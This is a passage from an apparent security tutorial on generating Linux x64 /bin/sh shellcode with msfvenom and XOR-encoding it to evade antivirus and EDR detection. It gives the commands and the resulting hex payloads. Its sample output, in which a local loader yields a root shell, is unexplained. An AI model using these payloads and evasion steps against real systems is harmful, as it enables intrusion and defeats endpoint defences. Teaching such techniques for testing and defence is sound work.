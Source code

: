 * * *

# 9\. Using msfvenom to Generate Shellcode

List available payloads:

`$ msfvenom -l payloads | grep linux/x64`

Generate /bin/sh shellcode:

`$ msfvenom -p linux/x64/exec CMD='sh' -a x64 --platform linux -f hex`

Output:

```txt
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```

Test with:

```
$ python3 loader.py '6a3b58...'
$ whoami
root

```

* * *

# 10\. Encoding Shellcode with msfvenom

Why encode?

- To **evade detection** by antivirus or EDR.
    
- To **bypass filters** that block specific byte patterns.
    

List available encoders:

`$ msfvenom -l encoders`

Encode with XOR:

`$ msfvenom -p linux/x64/exec CMD='sh' -a x64 --platform linux -f hex -e x64/xor`

Output is longer (due to decoder stub):

```txt
4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c
```

You can also encode your custom shellcode:

```
$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
$ msfvenom -p - -a x64 --platform linux -f hex -e x64/xor < shell.bin

```

